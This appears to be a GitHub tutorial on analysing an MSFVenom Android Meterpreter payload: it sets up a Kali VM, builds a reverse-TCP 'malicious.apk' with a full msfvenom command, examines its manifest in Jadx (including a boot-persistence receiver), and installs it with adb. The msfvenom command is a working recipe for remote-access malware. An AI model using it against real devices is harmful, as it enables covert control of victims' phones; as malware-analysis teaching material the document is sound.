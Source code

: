 # Analysing MSFVenom Android Payload (Malware)

MSFVenom is one of the most popular framework to create payloads, shellcodes, etc. I want to analyse a little bit a MSFVenom Android payload. So
<p align="center">
<img src="https://user-images.githubusercontent.com/36133745/164783235-d8df38a6-e0f3-4e68-9f64-57fa21b98435.gif">
</p>

## 🎬 Part 1 - Creating an Android payload with MSFVenom
Run your Kali Linux distibution (I use vagrant kalilinux/rolling box) and open a terminal.
```bash
# Installing Kali Linux Box
vagrant box add kalilinux/rolling

# Create a Kali Linux VM
mkdir -p /home/$USER/Desktop/vagrantmachines/kali
cd /home/$USER/Desktop/vagrantmachines/kali
vagrant init kalilinux/rolling

# Set Kali Network to Bridge
# Add below line into Vagrantfile file below config.vm.box = "kalilinux/rolling"
  config.vm.network "public_network"
# Save and Exit from Vagrantfile

# Execute Kali Machine
vagrant up

# SSH to Kali Machine
vagrant ssh

# If you want to turn it off just execute below command after you exit from ssh
vagrant halt
```

Simply execute below command.
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=$(ip addr show eth0 | grep -Po 'inet \K[\d.]+') LPORT=1337 > malicious.apk
```
* `-p`: choosing payload
* `LHOST`: listener IP address (C2)
* `LPORT`: listener Port number (C2)
* `> malicious.apk`: output of executed command (attacker payload)

After that, I copy **malicious.apk** to `/vagrant` which let me to access it from my computer.
```bash
cp malicious.apk /vagrant
```
## 🎬 Part 2 - Static Analysis with Jadx-Gui

Now I have **malicious.apk** besides **Vagrantfile**. Let's start static analysis.
Open it with Jadx-Gui. Let's see what AndroidManifest.xml does have for us.
![1](https://user-images.githubusercontent.com/36133745/166328267-ec5c9ddb-8230-46af-a575-adfddb1e6d27.png)

We have an activity called `MainActivity` (package: `com.metasploit.stage`) which is our first activity that'll execute.
![2](https://user-images.githubusercontent.com/36133745/166329390-42daa913-cba3-47cf-a4a4-2e2a4c920286.png)
```xml
<activity android:theme="@android:style/Theme.NoDisplay" android:label="@string/app_name" android:name="com.metasploit.stage.MainActivity">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <data android:scheme="metasploit" android:host="my_host"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <action android:name="android.intent.action.VIEW"/>
    </intent-filter>
</activity>
```

We can also see there is a `BroadcastReceiver` with `android.intent.action.BOOT_COMPLETED` action. It is obvious that this malware use this permission to execute itself after restarting mobile.
```xml
<receiver android:label="MainBroadcastReceiver" android:name="com.metasploit.stage.MainBroadcastReceiver">
    <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED"/>
    </intent-filter>
</receiver>
```

I use `adb` to install our payload.
```shell
adb install malicious.apk
```
